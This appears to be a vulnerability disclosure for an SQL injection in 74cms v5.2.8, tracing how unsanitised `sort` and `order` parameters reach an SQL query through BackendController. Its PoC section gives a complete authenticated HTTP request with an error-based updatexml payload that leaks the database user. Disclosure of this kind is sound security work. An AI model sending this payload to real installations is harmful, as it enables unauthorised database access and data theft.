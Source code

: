 # 74cms v5.2.8 SQLI

### Detail

The vulnerability is generated by the `_list` method in the `Common/Controller/BackendController.class.php` file, using the `I()` in the `_list` method to receive the `sort` and `order` parameters, and the splicing assignment to `$order_by`.

![](./img/1.png)

`$order_by` enters the `SQL` query by splicing, resulting in `SQL` injection.

![](./img/2.png)

![](./img/3.png)

The `_list` method is called in the `index` method.

![](./img/4.png)

Taking `Admin/Controller/AdController.class.php` as an example, the `AdController` class inherits the `BackendController` class and calls `index()` in the `category` method.

![](./img/5.png)

### PoC

Log in to the administrator account and send the following request packet.

```
GET /74cms/upload/index.php?m=Admin&c=Ad&a=category&sort=1&order=and+updatexml(0,concat(0x7e,user()),0) HTTP/1.1
Host: [::]
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://[::]/74cms/upload/index.php?m=Admin&c=index&a=index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: XDEBUG_SESSION=PHPSTORM; think_template=default; PHPSESSID=4gibptgp8kflrc0f9sd2t8pfm0; think_language=zh-CN
Connection: close
```

#### success

![](./img/6.png)
